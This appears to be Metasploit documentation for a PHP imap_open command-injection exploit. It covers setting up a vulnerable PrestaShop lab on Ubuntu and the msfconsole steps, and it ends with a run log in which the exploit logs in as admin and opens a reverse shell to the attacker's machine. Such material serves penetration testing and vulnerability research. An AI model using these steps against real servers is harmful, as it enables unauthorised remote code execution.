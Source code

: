 ## Vulnerable Application

  The [imap_open](http://php.net/manual/en/function.imap-open.php) function within php,
  if called without the `/norsh` flag, will attempt to preauthenticate an IMAP session.
  On Debian based systems, including Ubuntu, `rsh` is mapped to the ssh binary. Ssh's 
  `ProxyCommand` option can be passed from `imap_open` to execute arbitrary commands.
  While many custom applications may use `imap_open`, it is reported that the following
  applications are vulnerable: 

* instantcms
* HostCMS
* e107_2
* prestashop
* SuiteCRM
* SugarCRM

  Prestashop exploitation requires the admin URI, and administrator credentials.

### Prestashop on Ubuntu 16.04

Mostly derived from [websiteforstudents.com](https://websiteforstudents.com/install-prestashop-on-ubuntu-17-04-17-10-with-apache2-mariadb-and-php/),
with a few tweeks for Ubuntu 16.04, and to install PHP's imap mod.

```
sudo apt install apache2
sudo sed -i "s/Options Indexes FollowSymLinks/Options FollowSymLinks/" /etc/apache2/apache2.conf
sudo systemctl stop apache2.service
sudo systemctl start apache2.service
sudo systemctl enable apache2.service
sudo apt-get install mariadb-server mariadb-client
sudo systemctl stop mysql.service
sudo systemctl start mysql.service
sudo systemctl enable mysql.service
sudo mysql_secure_installation
sudo systemctl restart mysql.service
sudo apt install php libapache2-mod-php php-common php-mbstring php-xmlrpc php-soap php-gd php-xml php-intl php-mysql php-cli php-mcrypt php-ldap php-zip php-curl php-imap
sudo phpenmod imap
sudo mysql -u root -p
```

```
CREATE USER 'prestashopuser'@'localhost' IDENTIFIED BY 'new_password_here';
GRANT ALL ON prestashop.* TO 'prestashopuser'@'localhost' IDENTIFIED BY 'user_password_here' WITH GRANT OPTION;
FLUSH PRIVILEGES;
EXIT;
```

```
cd /tmp && curl -O https://download.prestashop.com/download/releases/prestashop_1.7.2.4.zip
unzip prestashop_1.7.2.4.zip
sudo mkdir -p /var/www/html/prestashop
sudo unzip prestashop.zip -d /var/www/html/prestashop/
sudo chown -R www-data:www-data /var/www/html/prestashop/
sudo chmod -R 755 /var/www/html/prestashop/
sudo nano /etc/apache2/sites-available/prestashop.conf
```

Utilize the following configuration:
```
<VirtualHost *:80>
     ServerAdmin admin@example.com
     DocumentRoot /var/www/html/prestashop/
     ServerName example.com
     ServerAlias www.example.com

     <Directory /var/www/html/prestashop/>
        Options +FollowSymlinks
        AllowOverride All
        Require all granted
     </Directory>

     ErrorLog ${APACHE_LOG_DIR}/error.log
     CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

```
sudo a2ensite prestashop.conf
sudo a2enmod rewrite
sudo a2dissite 000-default
sudo systemctl restart apache2.service
```

Browse to the website, and install with default information.

```
sudo rm -rf /var/www/html/prestashop/install/
```

Now browse to `/admin`, and the first time you'll be redirected to the admin URI.  If not, `sudo ls /var/www/html/prestashop/admin*`.

## Verification Steps

  1. Install a vulnerable application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/php_imap_open_rce```
  4. Do: ```set TARGETURI [URI]```
  5. Do: ```set USERNAME [username]```
  6. Do: ```set PASSWORD [password]```
  7. Do: ```set target [target]```
  8. Do: ```run```
  9. You should get a shell.

## Options

  **TARGETURI**

  The URI for the target.  This may change by target.  Default is ``.
  Prestashop should be the admin URI, similar to `/admin2769gx8k3`.

## Scenarios

### PrestaShop 1.7.2.4 on Ubuntu 16.04.4 with PHP 7.0

  ```
  resource (presta.rb)> use exploit/linux/http/php_imap_open_rce
  resource (presta.rb)> set TARGETURI /admin2769gx8k3
  TARGETURI => /admin2769gx8k3
  resource (presta.rb)> set USERNAME ubuntu@none.com
  USERNAME => ubuntu@none.com
  resource (presta.rb)> set PASSWORD ubuntuubuntu
  PASSWORD => ubuntuubuntu
  resource (presta.rb)> set rhosts 192.168.2.139
  rhosts => 192.168.2.139
  resource (presta.rb)> set verbose true
  verbose => true
  resource (presta.rb)> exploit
  [*] Started reverse TCP double handler on 192.168.2.117:4444 
  [*] Redirected to http://192.168.2.139/admin2769gx8k3/
  [*] Redirected to http://192.168.2.139/admin2769gx8k3/index.php?controller=AdminLogin&token=6dab1f7b4eea17d2b44a8929ead9df68
  [*] Token: 6dab1f7b4eea17d2b44a8929ead9df68 and Login Redirect: http://192.168.2.139/admin2769gx8k3/&token=09283f9efc45fc75eca3b8d5f1b1f92f
  [*] Logging in with ubuntu@none.com:ubuntuubuntu
  [*] Login JSON Response: {"hasErrors":false,"redirect":"http:\/\/192.168.2.139\/admin2769gx8k3\/index.php?controller=AdminDashboard&token=e324e8b387afb1874947db9b1ba411c8"}
  [+] Login Success, loading admin dashboard to pull tokens
  [*] Customer Threads Token: ec653c8bfc09754fc63aaa94101911dc
  [+] Sending Payload with Final Token: ec653c8bfc09754fc63aaa94101911dc
  [*] Accepted the first client connection...
  [*] Accepted the second client connection...
  [*] Command: echo ivxULEW4eweTiis7;
  [*] Writing to socket A
  [*] Writing to socket B
  [*] Reading from sockets...
  [*] Reading from socket A
  [*] A: "ivxULEW4eweTiis7\r\n"
  [*] Matching...
  [*] B is input...
  [*] Command shell session 1 opened (192.168.2.117:4444 -> 192.168.2.139:41746) at 2018-11-18 21:08:50 -0500
  
  uname -a
  Linux ubuntu1604 4.4.0-138-generic #164-Ubuntu SMP Tue Oct 2 17:16:02 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
  whoami
  www-data
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
